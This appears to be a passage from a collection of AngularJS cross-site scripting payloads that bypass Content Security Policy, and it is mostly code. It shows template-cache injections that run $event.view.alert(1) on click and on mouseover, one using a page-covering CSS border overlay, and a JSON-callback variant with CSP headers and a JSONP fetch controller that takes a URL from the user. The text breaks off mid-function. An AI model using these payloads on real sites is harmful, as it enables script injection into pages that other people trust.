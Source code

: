```
  <ng-include src="'one.html'"></ng-include>
</div>
</body>
</html>
```

test.js
```
var foo = angular.module("foo", []);
foo.run(['$templateCache', function($templateCache) {
    $templateCache.put('one.html', '<h1 data-ng-click="$event.view.alert(1)">Click me</h1>');
}]);
```

### XSS on Hover with CSS-based Overlay ###

```
var foo = angular.module("foo", []);
foo.run(['$templateCache', function($templateCache) {
    $templateCache.put('one.html', '<h1 data-ng-style="{border: \'1000px solid red\'}" data-ng-mouseover="$event.view.alert(1)">Click me</h1>');
}]);
```

### XSS via JSON Callback ###

```
<?php
header('X-Content-Security-Policy: default-src \'self\' ajax.googleapis.com');
header('Content-Security-Policy: default-src \'self\' ajax.googleapis.com');
header('X-Webkit-CSP: default-src \'self\' ajax.googleapis.com');
header('Set-Cookie: abc=123');
?><!doctype html>
<html ng-app ng-csp>
<head>
<script src="http://ajax.googleapis.com/ajax/libs/angularjs/1.1.5/angular.min.js"></script>
<script src="test.js"></script>
</head>
<body>
<div ng-controller="FetchCtrl">
<input type="text" ng-model="url" size="80" />
<button ng-click="fetch()">fetch</button>
</div>
</body>
</html>
```

test.js
```
function FetchCtrl($scope, $http, $templateCache) {
    $scope.method = 'JSONP';
    $scope.fetch = function() {
    $scope.code = null;
    $scope.response = null;
    $http({method: $scope.method, url: $scope.url, cache: $templateCache}).
    	success(function(data, status) {
    		$scope.status = status;
    		$scope.data = data;
    	})
    };
    $scope.updateModel = function(method, url) {
    	$scope.method = method;
    	$scope.url = url;
 	};
}
function foo(){
```